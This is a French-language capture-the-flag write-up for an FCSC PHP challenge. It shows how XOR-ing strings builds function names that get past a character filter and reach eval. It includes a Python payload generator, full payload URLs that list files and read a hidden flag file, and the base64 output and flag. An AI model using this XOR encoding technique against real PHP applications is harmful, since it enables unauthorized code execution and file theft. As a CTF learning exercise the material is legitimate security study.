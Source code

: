 # Lipogrammeurs

![enonce](images/enonce.png)

![source](images/source.png)

![eval](images/eval.png)


https://www.php.net/manual/en/language.operators.bitwise.php

> If both operands for the &, | and ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string. In all other cases, both operands will be converted to integers and the result will be an integer.

Payload copied from [EasyPHP](https://github.com/jesux/ctf-write-ups/tree/master/isitdtu-2019/EasyPHP):

```
((%ff%ff%ff%ff%ff%ff%ff)^(%8f%8d%96%91%8b%a0%8d)) -> print_r
    (
        ((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%91%9b%96%8d)) -> scandir
            (
                ((%ff)^(%d1)) -> .
            )
    );
```

`http://challenges2.france-cybersecurity-challenge.fr:5008/?code=((%ff%ff%ff%ff%ff%ff%ff)^(%8f%8d%96%91%8b%a0%8d))(((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%91%9b%96%8d))(((%ff)^(%d1))));`


```php
Array ( [0] => . [1] => .. [2] => .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php [3] => index.php )  
```

**Objectif:** passer `readfile('.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php');` a `eval`.

```python
import sys

query = sys.argv[1]

result=[]
i = 129
for c in query:
    while chr(255 ^ i) != c:
        i = i + 1
    result.append(hex(i).replace('0x', '%'))
    i = 129

print(f"(({'%ff' * len(sys.argv[1])})^({''.join(result)}))")
```

```
$ python3 genPayload.py readfile
((%ff%ff%ff%ff%ff%ff%ff%ff)^(%8d%9a%9e%9b%99%96%93%9a))
$ python3 genPayload.py .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php
((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%d1%99%93%9e%98%d1%96%91%8c%96%9b%9a%d1%b5%cb%cb%94%a6%b7%a6%b3%c
c%9e%8c%98%8c%aa%c8%ad%c6%85%b7%a8%a5%a7%9d%ad%a8%b4%c8%b5%95%b9%c8%ba%d1%8f%97%8f))
```

Decortiquons le payload:

```
((%ff%ff%ff%ff%ff%ff%ff%ff)^(%8d%9a%9e%9b%99%96%93%9a))
    (
        ((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%d1%99%93%9e%98%d1%96%91%8c%96%9b%9a%d1%b5%cb%cb%94%a6%b7%a6%b3%cc%9e%8c%98%8c%aa%c8%ad%c6%85%b7%a8%a5%a7%9d%ad%a8%b4%c8%b5%95%b9%c8%ba%d1%8f%97%8f))
    );
```

Payload 1: `((%ff%ff%ff%ff%ff%ff%ff%ff)^(%8d%9a%9e%9b%99%96%93%9a))(((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%d1%99%93%9e%98%d1%96%91%8c%96%9b%9a%d1%b5%cb%cb%94%a6%b7%a6%b3%c
c%9e%8c%98%8c%aa%c8%ad%c6%85%b7%a8%a5%a7%9d%ad%a8%b4%c8%b5%95%b9%c8%ba%d1%8f%97%8f)));`

Resultat: page vide

![blank page](images/blank.png)

Payload 2: 

- `var_dump(base64_encode(file_get_contents('.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php')))`
- `((%ff%ff%ff%ff%ff%ff%ff%ff)^(%89%9e%8d%a0%9b%8a%92%8f))(((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%9d%9e%8c%9a%c9%cb%a0%9a%91%9c%90%9b%9a))(((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%99%96%93%9a%a0%98%9a%8b%a0%9c%90%91%8b%9a%91%8b%8c))(((%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff)^(%d1%99%93%9e%98%d1%96%91%8c%96%9b%9a%d1%b5%cb%cb%94%a6%b7%a6%b3%c
c%9e%8c%98%8c%aa%c8%ad%c6%85%b7%a8%a5%a7%9d%ad%a8%b4%c8%b5%95%b9%c8%ba%d1%8f%97%8f)))));`

```php
string(156) "PD9waHAKCS8vIFdlbGwgZG9uZSEhIEhlcmUgaXMgdGhlIGZsYWc6CgkvLyBGQ1NDezUzZDE5NTUyMmExNWFhMGNlNjc5NTRkYzFkZTdjNTA2MzE3NGE3MjFlZTVhYTkyNGE0YjliMTViYTFhYjY5NDh9Cg=="
```

flag: `FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}`

## Liens utiles

- https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution
- https://ctftime.org/writeup/15937
- https://github.com/Samik081/ctf-writeups/blob/master/ISITDTU%20CTF%202019%20Quals/web/easyphp.md